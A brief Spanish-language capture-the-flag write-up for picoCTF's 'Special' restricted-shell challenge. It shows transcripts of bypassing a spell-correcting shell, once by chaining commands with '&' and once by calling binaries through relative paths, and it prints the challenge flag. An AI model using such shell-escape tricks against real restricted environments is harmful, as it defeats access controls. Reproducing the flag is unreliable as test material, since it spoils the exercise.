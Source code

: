 ## Descripción
Don't power users get tired of making spelling mistakes in the shell? Not anymore! Enter Special, the Spell Checked Interface for Affecting Linux. Now, every word is properly spelled and capitalized... automatically and behind-the-scenes! Be the first to test Special in beta, and feel free to tell us all about how Special streamlines every development process that you face. When your co-workers see your amazing shell interface, just tell them: That's Special (TM)
## Solución
tuve que ver 2 videos para resolverlo.
En el primero la persona lo resolvió de una manera que no entendí (no entendí el cómo llego a esa conclusión) ;
```
Special$ find .
Find .
sh: 1: Find: not found
Special$ Clear & find .
Clear & find .
sh: 1: Clear: not found
.
./blargh
./blargh/flag.txt
./.cache
./.cache/motd.legal-displayed
Special$ Find .
Find .
sh: 1: Find: not found
Special$ & find .
& find .
sh: 1: Syntax error: "&" unexpected
Special$ Clear & cat ./blargh/flag.txt
Clear & cat ./blargh/flag.txt
sh: 1: Clear: not found
picoCTF{5p311ch3ck_15_7h3_w0r57_f906e25a}Special$ 
```

En el segundo, la persona intentó varias formas hasta que llegó a la conclusión de que debía acceder a los comandos desde las rutas relativas de estos
```
Special$ ../usr/bin/ls
../usr/bin/ls
sh: 1: ../usr/bin/ls: not found
Special$ ../../usr/bin/ls
../../usr/bin/ls
blargh
Special$ ../../usr/bin/ls ./blargh
../../usr/bin/ls ./blargh
flag.txt
Special$ ../../usr/bin/cat ./blargh/flag.txt
../../usr/bin/cat ./blargh/flag.txt
picoCTF{5p311ch3ck_15_7h3_w0r57_f906e25a}Special$ 
```
## Notas
los comando de linux están guardados en el directorio /usr/bin
## Referencias
https://www.youtube.com/watch?v=K9H6i73ydMM&ab_channel=MartinCarlisle
https://www.youtube.com/watch?v=ukeBAbfiz2k&ab_channel=2xdropout